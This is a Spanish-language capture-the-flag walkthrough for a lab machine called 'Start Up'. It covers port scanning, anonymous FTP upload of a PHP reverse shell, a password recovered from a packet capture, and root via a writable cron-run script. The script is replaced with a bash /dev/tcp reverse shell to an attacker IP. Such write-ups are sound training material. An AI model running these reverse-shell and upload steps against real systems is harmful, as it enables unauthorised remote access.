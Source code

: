 # Start Up

## Scanning

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.218.21 -oG allports
nmap -sC -sV -p 21,22,80 -Pn -n 10.10.218.21 -oN targeted
```

![0718200834.png](0718200834.png)

## FTP

Entramos con usuario **anonymous** y descargamos todo lo que hay.

![0718200811.png](0718200811.png)

En el caso del directorio ftp no hay nada pero si vemos los permisos de la carpeta tenemos permiso de escritura y lecutra.



## 80

En la página web no vemos algo útil, así que buscaremos que carpetas puede tener con wfuzz.

```bash
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u 'http://10.10.218.21/FUZZ'
```

![0718200811.png](0718221012.png)

Vemos una carpeta files, esta carpeta no hay nada pero parece ser la misma que la de la carpeta FTP que vimos con anterioridad. Entonces colocaremos una reverse shell con php en esta carpeta.

En parrot tenemos varias reverse shell por ejemplo podemos usar esta copiandola con el comando:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

Modificamos un poco el archivo para colocar la ip del atacante y cambiar la shell para una bash.

```php
...
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.13.13.243';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;
...
```

Ahora subimos el archivo usando el servicio ftp en la carpeta ftp.

![0718231106.png](0718231106.png)

Esto debería reflejarse en la carpeta del sitio web en la ruta `/files/ftp`
![0718231121.png](0718231121.png)

## Reverse shell

Ahora para conectarnos deberemos estar a la escucha con netcat 

```bash
nc -lvp 4444
```
Y entramos al enlace de **shell.php**

![0718231120.png](0718231120.png)

## User flag

Aquí encontramos la receta secreta y un archivo sospechozo llamado `suspicious.pcapng`, esto podemos descargarlo copiandolo en la carpeta files.

![0718231107.png](0718231107.png)

En el archivo si lo imprimimos con la función strings para que solo podamos ver caracteres ascii podremos leerlo sin caracteres extraños.

![0719001205.png](0719001205.png)

Así encontramos la contraseña **c4ntg3t3n0ughsp1c3** del otro usuario. Vemos que también nombra a un usuario **lennie**.

Podemos conectarnos por ssh.

```bash
ssh lennie@10.10.129.101
```

## Privilege Scalation

Dentro de la carpeta home de lennie encontramos una carpeta scripts con unos cuantos códigos en bash que llaman a el archivo de ruta `/etc/print.sh`, el cual tenemos permisos de escritura
![0817231139](0817231139.png)

Usaremos pspy para monitorear lo que hace el sistema. Podemos subir este archivo montando un servidor http en nuestro equipo y descargar el archivo pspy con wget desde la maquina victima.

```shell
# Iniciar el servidor http en tu equipo
sudo python3 -m http.server 80

# Descargar el archivo pspy desde la maquina victima
wget http://tuip/pspy32s

# Ejecutar pspy
chmod +x pspy32s
./pspy32s
```

Vemos que se esta ejecutando el archivo **planner.sh** repetidamente.

![0818010100](0818010100.png)

Ya que tenemos permisos de escritura sobre un archivo que ejecuta planer.sh y segun pspy es ejecutado con un UID=0 por lo que quien lo ejecuta será el mismo root.

Ahora para lograr escalar privilegios necesitamos modificar el archivo **print.sh** que vimos antes para que ejecute una shell reversa.

**print.sh**
```shell
#!/bin/bash
bash -i >& /dev/tcp/10.13.13.243/4444 0>&1
```

Esperamos con netcat en el puerto 4444

```shell
nc -lvp 4444
```

![0818010122](0818010122.png)